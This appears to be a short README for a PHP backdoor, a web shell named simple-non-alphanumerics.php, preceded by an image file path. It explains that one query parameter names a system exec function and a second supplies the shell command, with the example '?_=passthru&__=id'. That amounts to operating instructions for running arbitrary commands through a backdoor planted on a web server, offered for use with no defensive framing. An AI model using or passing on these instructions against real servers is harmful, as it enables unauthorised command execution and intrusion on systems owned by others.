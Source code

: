 # PHP Backdoor Usage
### For simple-non-alphanumerics.php
- Usage: blabla.php?_=< system exec function >&__=< command >
- Example: blabla.php?_=passthru&__=id
